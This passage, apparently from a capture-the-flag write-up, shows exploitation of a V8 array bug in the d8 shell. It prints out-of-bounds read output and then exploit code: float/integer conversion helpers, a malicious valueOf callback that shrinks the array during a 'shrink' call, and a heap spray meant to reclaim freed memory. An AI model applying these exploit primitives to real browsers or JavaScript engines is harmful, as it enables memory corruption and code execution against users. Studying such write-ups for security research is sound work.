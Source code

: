 ```
before 18: 0x3ff199999999999a
before 19: 0x3ff199999999999a
undefined
d8> undefined
d8> after 0: 0x3ff199999999999a
after 1: 0x7ff8000000000000
after 2: 0x7ff8000000000000
after 3: 0x7ff8000000000000
after 4: 0x7ff8000000000000
after 5: 0x7ff8000000000000
after 6: 0x7ff8000000000000
after 7: 0x7ff8000000000000
after 8: 0x7ff8000000000000
after 9: 0x7ff8000000000000
after 10: 0x7ff8000000000000
after 11: 0x7ff8000000000000
after 12: 0x7ff8000000000000
after 13: 0x7ff8000000000000
after 14: 0x7ff8000000000000
after 15: 0x7ff8000000000000
after 16: 0x7ff8000000000000
after 17: 0x7ff8000000000000
after 18: 0xc000000971
after 19: 0x7ff8000000000000
undefined
d8>
```
So we are now able to view data out-of-bounds of our array, most of which looks the same, this is probably related to `the_hole_value`, the value javascript uses as a filler element when resizing arrays. These elements were just recently freed though, so I figured we should see if we can reclaim them.

I have no idea how the allocator works in v8 so I just tried allocating a ton of arrays to see if eventually it would get reclaimed by other data:

```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { f64_buf[0] = val; return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); }
function itof(val) { u64_buf[0] = Number(val & 0xffffffffn); u64_buf[1] = Number(val >> 32n); return f64_buf[0]; }

arr = new Array(2000).fill(1.1);
evil = { valueOf() { for (let i = 0; i < 1999; i++) { arr.pop(); } return 1999; } };
arr.shrink(evil)

let arrs = [];
for (let i = 0; i < 50000; i++) { arrs.push([1.1]); }

for (let i = 0; i < 50; i++) { console.log('after ' + i + ': 0x' + ftoi(arr[i]).toString(16)); }
```
